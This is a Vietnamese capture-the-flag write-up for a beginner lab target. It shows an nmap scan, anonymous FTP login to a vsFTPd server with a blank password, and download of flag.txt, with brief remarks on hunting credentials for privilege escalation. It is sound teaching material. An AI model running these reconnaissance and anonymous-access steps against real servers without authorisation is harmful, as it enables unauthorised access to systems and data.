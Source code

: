 > Trong target này, ta sẽ học cách định hướng tìm kiếm thông tin cơ bản trong database, bao gồm cả những thông tin quan trọng như usernames và password, thứ có thể giúp leo thang quyền người dùng (privillege escalation).
### 1. Thu thập thông tin target
###### target IP: 10.129.145.237
##### + Kiểm tra kết nối: 
` ping 10.129.145.237 `
##### + Kiểm tra dịch vụ và port:
` nmap -sV 10.129.145.237 `
##### => port 21/tcp ftp.
###### FTP (file trnnsfer protocol) là phương thức giao tiếp tiêu chuẩn sử dụng để di chuyển file từ server tới client trong mạng máy tính.
##### + Kết nối đến ftp:
` ftp 10.129.145.237 `
##### => Yêu cầu thông tin người dùng và mật khẩu
##### + Tìm kiếm 'FTP common misconfig' trên Chrome thấy trang web https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp có nói thông tin về đăng nhập dưới tài khoản anonymous, không yêu cầu mật khẩu:
```
...
220 (vsfTPd 3.0.3)
Name (10.129.145.237): anonymous
331 Please specify the password
Password: *nhấn enter để skip mật khẩu*
...
230 Login successfully
...
ftp> 
```
### 2. Khai thác lỗ hổng
##### + Trong server FTP: 
```
dir
get flag.txt
exit
```
###### lệnh get flag.txt sẽ tải file về thư mục hiện tại đang sử dụng
##### + Trong thư mục có flag.txt: 
```
ls
cat flag.txt
```
